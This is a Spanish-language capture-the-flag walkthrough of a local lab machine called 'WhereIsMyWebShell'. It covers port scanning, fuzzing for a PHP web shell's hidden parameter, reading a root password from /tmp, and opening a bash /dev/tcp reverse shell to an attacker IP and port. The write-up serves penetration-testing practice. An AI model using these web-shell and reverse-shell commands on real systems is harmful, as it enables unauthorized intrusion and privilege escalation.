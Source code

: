 ### Informe de máquina *"WhereIsMyWebShell"*

![Máquina Psycho](../../data/facil/whereismywebshell/screenshots/01_maquina.png)

Vamos a realizar la maquina "Psycho", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `psycho.tar`

![Permisos ejecución deploy](../../data/facil/whereismywebshell/screenshots/02_permisos_ejecucion_deploy.png)
![Inicialización máquina](../../data/facil/whereismywebshell/screenshots/03_inicializacion_maquina.png)

Realizamos un testeo de conexión con el comando `ping`.
Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Test de conexión](../../data/facil/whereismywebshell/screenshots/04_escaneo_puertos_abiertos.png)

Encontramos que el puerto 80 abierto, realizamos un escaneo más detallado de este puerto.

![Escaneo detalle puerto 80](../../data/facil/whereismywebshell/screenshots/05_escaneo_puerto80.png)

Procedemos a revisar el contenido de la página web.

![Página web](../../data/facil/whereismywebshell/screenshots/06_pagina_web.png)
![Código fuente de página web](../../data/facil/whereismywebshell/screenshots/07_codigo_fuente_pagina.png)

Casi al final de la página podemos encontrar un mensaje que dice "Guardo un secreto que guardo en /tmp". Guardamos este dato para después.

Por ahora realizamos un ataque de fuzzing para encontrar directorios o páginas en el servidor web.

![Ataque de Fuzzing](../../data/facil/whereismywebshell/screenshots/08_ataque_fuzzing.png)

Encontramos dos páginas, una "shell.php" y otra "warning.html".

![Web warning](../../data/facil/whereismywebshell/screenshots/09_web_warning.png)

En "warning.html" encontramos un mensaje que dice: "...su web shell tiene un parámetro que no recuerdo...", podemos concluir que la página "shell.php" espera un parámetro.

![Ejemplo web shell en php](../../data/facil/whereismywebshell/screenshots/10_ejemplo_codigo_shell_php.png)

Investigando un poco del funcionamiento de una web shell con php, si identificamos el nombre del parámetro le podemos mandar una instrucción para que sea ejecutada.

Realizaremos un ataque de fuzzing, donde la página "shell.php" reciba el nombre de un parámetro y que ejecute el comando `id`. Haciendo uso de la herramienta `wfuzz`


```bash
wfuzz -c  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --sc 200 'http://172.17.0.2/shell.php?FUZZ=id'
```

![Fuzzing id de web shell](../../data/facil/whereismywebshell/screenshots/11_id_shell.png)

Encontramos que el nombre del parámetro para la ejecución de la web shell es "parameter".

![Acceso a web shell](../../data/facil/whereismywebshell/screenshots/12_acceso_shell.png)

Recordando el primer mensaje pista, realizamos un listado de todos los archivos en `/tmp`, recordando que estamos en un navegador debemos remplazar algunos símbolos como `/` o `.`.
Es decir, para ejecutar el comando `ls -la /tmp` ejecutaremos: `ls -la %2Ftmp`, nos podemos apoyar de algún codificador como [urlencoder](https://www.urlencoder.org/es/)

Ejecutamos:
```
172.17.0.2/shell.php?parameter=ls -la %2Ftmp
```

![Contenido en tmp](../../data/facil/whereismywebshell/screenshots/14_ls_tmp.png)

Identificamos un archivo oculto llamado `.secret.txt`
Ejecutamos el comando:

```
172.17.0.2/shell.php?parameter=cat %2Ftmp%2F.secret.txt
```

![Lectura secret.txt](../../data/facil/whereismywebshell/screenshots/15_passwd_root.png)

Encontramos una contraseña al parecer del usuario root.
Para realizar una mejor ejecución de los comandos vamos a realizar una reverse shell.

Primero empezamos por definir un puerto en escucha en nuestra máquina atacante, en este caso el puerto 4433, con el comando: `sudo nc -lvnp 4433`

![Escucha puerto 4433](../../data/facil/whereismywebshell/screenshots/16_reverse_shell_listening_port.png)

Y en el navegador el comando `bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'` donde `$RHOST` es la ip de nuestra maquina atacante y `$RPORT` es el puerto que definimos para la escucha:
Compilando este comando y ejecutando en el navegador quedaría:

```
172.17.0.2/shell.php?parameter=bash -c 'bash -i >%26 %2Fdev%2Ftcp%2F10.0.2.15%2F4433 0>%261'
```

En unos segundos, observamos que la terminal donde dejamos en escucha el puerto 4433, se nos iniciará una shell.

![Acceso a terminal](../../data/facil/whereismywebshell/screenshots/17_acceso_terminal.png)

Como revisamos en el archivo `/tmp/.secret.txt` intentamos acceder como usuario `root` con esta contraseña, resultando con éxito.

La contraseña de root era: `contraseñaderoot123`

![Logeo como root](../../data/facil/whereismywebshell/screenshots/18_acceso_root.png)


